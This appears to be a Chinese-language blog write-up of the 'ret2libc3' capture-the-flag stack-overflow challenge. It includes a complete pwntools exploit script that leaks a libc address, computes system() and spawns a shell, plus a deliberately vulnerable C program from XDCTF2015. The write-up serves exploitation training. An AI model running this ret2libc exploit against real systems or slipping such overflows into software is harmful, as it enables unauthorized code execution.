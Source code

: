 ```yaml
---
layout:     post
title:      ret2libc3
subtitle:   解题思路
date:       2018-07-11
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程





## 解题思路





![image-20180912174509270](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-12-094638.png)



当第一次send返回的时候，栈已经发生了变化，第二次栈溢出点为104位之后

```
payload = flat(['A' * 104, gets_addr, pop_ebx_ret, buf, system_addr, 0xdeadbeef, buf])
```



![image-20180912174520022](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-12-094645.png)





exp.py

```python
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
    sh = remote('127.0.0.1', 4000)
else:
    sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
libc = ELF('./libc.so')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
gets_addr = ret2libc3.symbols['gets']


payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)
libc_start_main_addr = u32(sh.recv()[0:4])

# readelf -s libc.so | grep 'start_main'
libc_start_main = libc.symbols['__libc_start_main'] 
libc_system = libc.symbols['system']
libc_base = libc_start_main_addr - libc_start_main
system_addr = libc_base + libc_system

#raw_input('#')
print "get shell"
gets_addr = ret2libc3.symbols['gets']
pop_ebx_ret = 0x0804841d
buf = 0x0804b000 - 0x100 # cat /proc/`pidof ret2libc3`/maps

#libc_binsh_addr = 0x15b82b # strings -a -tx libc.so | grep '/bin/sh'
#binsh_addr = libc_binsh_addr + libc_base
#payload = flat(['a'*104, system_addr, 0xdeadbeef, binsh_addr])

payload = flat(['A' * 104, gets_addr, pop_ebx_ret, buf, system_addr, 0xdeadbeef, buf])
sh.sendline(payload)

sh.interactive()
```



ret2resolve.c

```c
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buf[100];
    setbuf(stdin, buf);
    read(0, buf, 256);
}
int main()
{
    char buf[100] = "Welcome to XDCTF2015~!\n";

    setbuf(stdout, buf);
    write(1, buf, strlen(buf));
    vuln();
    return 0;
}
```



## 总结

本次实验，难点在于leak libc base address，以及第一次send之后返回main函数，第二次利用溢出的溢出位置的寻找
